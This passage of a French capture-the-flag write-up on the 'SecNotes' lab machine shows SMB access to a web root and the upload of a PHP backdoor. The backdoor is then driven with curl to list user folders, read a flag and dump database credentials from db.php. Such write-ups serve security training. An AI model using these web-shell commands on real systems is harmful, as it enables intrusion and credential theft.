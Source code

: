 ```plain
$ smbclient -U tyler //secnotes.htb/new-site
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\tyler's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Aug 29 11:10:53 2018
  ..                                  D        0  Wed Aug 29 11:10:53 2018
  iisstart.htm                        A      696  Thu Jun 21 17:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 17:26:03 2018
```

Ces fichier correspondent à ce que l'on peut trouver sur le port 8808. On peut y placer du PHP qui sera interprété, peut être aussi de l'ASP mais *Windows Defender* est prêt à supprimer nos web-meterpreters.  

J'ai commencé par uploader une backdoor généraliste (voir [ce précédent article](http://devloop.users.sourceforge.net/index.php?article128/tales-of-pentest-1-celui-qui-donnait-la-permission-file)) histoire de fouiller un peu :  

```plain
$ curl --data 'f=scandir&a=c:/users/&rf=print_r' http://secnotes.htb:8808/devloop_.php
Array
(
    [0] => .
    [1] => ..
    [2] => Administrator
    [3] => All Users
    [4] => Default
    [5] => Default User
    [6] => DefaultAppPool
    [7] => Public
    [8] => desktop.ini
    [9] => new
    [10] => newsite
    [11] => tyler
    [12] => wayne
)
```

On trouve notre premier flag :  

```plain
$ curl --data 'f=readfile&a=c:/users/tyler/desktop/user.txt' http://secnotes.htb:8808/devloop_.php
6fa7556968052a83183fb8099cb904f3
```

Et des identifiants dans *C:/inetpub/wwwroot/db.php* :  

```php
<?php

if ($includes != 1) {
    die("ERROR: Should not access directly.");
}

/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'secnotes');
define('DB_PASSWORD', 'q8N#9Eos%JinE57tke72');
//define('DB_USERNAME', 'root');
//define('DB_PASSWORD', 'qwer1234QWER!@#$');
define('DB_NAME', 'secnotes');

/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);

```